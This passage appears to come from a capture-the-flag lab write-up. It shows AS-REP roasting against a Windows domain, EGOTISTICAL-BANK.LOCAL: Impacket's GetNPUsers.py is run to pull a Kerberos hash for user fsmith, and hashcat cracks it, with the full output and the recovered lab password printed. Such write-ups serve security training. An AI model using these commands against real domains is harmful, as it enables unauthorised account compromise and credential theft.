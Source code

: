 To start the attack, we can use `GetNPUsers.py` from `Impacket Scripts`.

```bash
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.lst -no-pass -dc-ip EGOTISTICAL-BANK.LOCAL
```

Since we don't know the naming convention used by this bank, I tried multiple ones and the one that worked for me is `first letter of the first name` `+` `last name`.

![](3.png)

We got back the TGT for the user `fsmith`, now let's crack it using hashcat.

```bash
hashcat -m 18200 fsmith.hash /usr/share/wordlists/rockyou.txt                                                                                          
hashcat (v6.1.1) starting...
                                                                                                                                                              
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]                                 
=============================================================================================================================                                 
* Device #1: pthread-Intel(R) Core(TM) i5 CPU       M 520  @ 2.40GHz, 2726/2790 MB (1024 MB allocatable), 4MCU                  
                                                                               
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256  


Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:6ae61314942a30e8dd9ee08ea53ed11e$8ece153be6ec61e7c9fc18a29e7a6f715a72318a434b3cb2ec167e8204f6f496db4ad98e225482351
69a3d6579140ae15c9a7226e0edf7344e9a008afe5884936453c4740c6747dd8f5bc53b8821ebefa225be02c852c9ac0f8ef69cbc8e1233a18c8810e3d4aea56164977bb493ef7f195dabfb466b698
eda87448e3acc823b7c81e0acff1c3079cd046d13cc4d7a6c7e3c60de6391de180a592b8f320aaa21a30bbeb49b2ff030856916a188586b3030435e48df82b719d0f29ce74f6d51658f3a04c6c4303
7456064cb02f1d450e708469fcda738cb56572edd1a145b87ca24d3c245c59fca4ce99e7859e2c80a0d7082384d87555bcbdff62e7efeee568f:Thestrokes23
                                                  
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$FSmith@EGOTISTICAL-BANK.LOCAL:6ae6131...ee568f 
Time.Started.....: Thu Aug 24 10:02:08 2023 (30 secs)
Time.Estimated...: Thu Aug 24 10:02:38 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   351.1 kH/s (7.15ms) @ Accel:32 Loops:1 Thr:64 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10543104/14344385 (73.50%)
Rejected.........: 0/10543104 (0.00%)
Restore.Point....: 10534912/14344385 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Tioncurtis23 -> Teague51

Started: Thu Aug 24 10:02:04 2023
Stopped: Thu Aug 24 10:02:40 2023
```

